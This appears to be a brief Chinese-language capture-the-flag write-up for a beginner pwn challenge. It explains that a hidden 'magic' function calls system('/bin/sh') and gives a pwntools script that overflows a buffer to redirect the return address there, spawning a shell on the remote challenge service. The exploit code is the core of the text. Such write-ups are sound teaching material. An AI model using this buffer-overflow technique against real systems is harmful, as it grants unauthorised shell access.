 發現有一個 magic 函式，裡面有`system('/bin/sh')`
利用 BOF 把 main 裡面的 ret 位置 蓋成 magic 的位置即可

```python
from pwn import *

p = remote('10.140.0.8', 11111)
#p = process('./pwn1')
offset = 'a' * 16
target_addr = 0x04005fb
payload = offset + p64(target_addr)
p.sendline(payload)
p.interactive()
```
- `EOF{B0f_for_Infants}`

